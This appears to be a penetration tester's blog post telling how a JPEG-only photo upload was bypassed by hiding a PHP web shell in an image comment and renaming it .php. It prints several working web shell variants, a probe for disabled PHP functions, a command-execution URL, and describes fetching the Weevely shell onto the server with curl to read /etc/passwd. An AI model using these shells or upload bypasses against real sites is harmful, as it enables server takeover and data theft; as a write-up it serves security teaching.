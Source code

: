 ```yaml
---
layout: post
title: A Tale of a PHP Shell
tags: [pentesting]
category: posts
---
```


During a penetration test where I had only a single day to get the most out of a web application, a photo upload feature caught my attention. By the time I got to the upload page, I already discovered that all the photos were uploaded to a specific directory for each authenticated user:

	http://example.com/attachments/[USERID]/
	
I knew where my uploaded files will be put, now it was time to get a shell up and working! I started with a very basic shell, which I usually employ as a starting point:

{% highlight php %}
<?php echo "<pre>"; system($_GET['cmd']); echo "</pre>"; ?>
{% endhighlight %}
	
First of all, I tried uploading a .php file directly, just to test my daily luck. Without much surprise, the application only accepted JPEG files.

Next, I tried adding the .jpg extension to my file, relying on the usual tricks as `shell.php.jpg`, `shell.jpg`, `shell.php%00.jpg` etc. None of them went through.

The only remaining solution seemed to insert the shell code into the JPEG comment, as the application apperared to accept only proper image files. It worked!

Jumping right into the newly uploaded shell, I quickly discover that the .jpg file wasn't being executed by the server, leaving me with a useless commented picture.

To test the security mechanisms further, I tried renaming the JPEG into .php and this time the upload completed successfully. The application was only checking for the file to be a proper JPEG, regardless of the extension!

Getting back to my shell, I am greeted by an error message stating that `system()` is disabled and couldn't be used to execute commands. My chances were getting thin as I figured most of the functions must have been disabled. In order to check which functions I could still use, I uploaded the following code:

{% highlight php %}
<?php echo "<pre>"; echo ini_get("disable_functions"); echo "</pre>"; ?>
{% endhighlight %}

Despite my basic knowledge of the PHP language, I immediately noticed that the returned list was not including the `exec()` function. The updated shell now looked like:

{% highlight php %}
<?php echo "<pre>"; exec($_GET['cmd']); echo "</pre>"; ?>
{% endhighlight %}

To my dismay, while not returning any error messages, the shell was returning only one-line responses (e.g. `whoami` worked, `ls` didn't). Utterly annoyed, I went back to the `exec()` guide and noticed that I got it all wrong! To properly address the output issue, the shell evolved into:

{% highlight php %}
<?php echo "<pre>"; exec($_GET['cmd'], $o, $r); print implode("\n", $o); echo "</pre>"; ?>
{% endhighlight %}

Once more, I inserted the code into a JPG comment and renamed it to shell.php. This time the uploaded shell was finally working properly! The shell could be used via the `cmd` parameter in order to execute commands directly onto the server.
	
	http://example.com/attachments/12345/shell.php?cmd=whoami

At this point, I was able to browse and operate on the whole web root, but *mod_security* was forbidding me more interesting actions, like executing `cat /etc/password`. Not completely satisfied with the result, I checked the available applications and noticed that `curl` was available...

Time was running out and I decided to try out [Weevely][weevely], an (amazing) interactive shell that can be controlled from the terminal. Using Dropbox and `curl` I was able to directly download Weevely on the remote server and the new shell was able to read /etc/passwd and return other interesting PHP configuration information, like the list of available functions.


[weevely]: https://github.com/epinna/Weevely
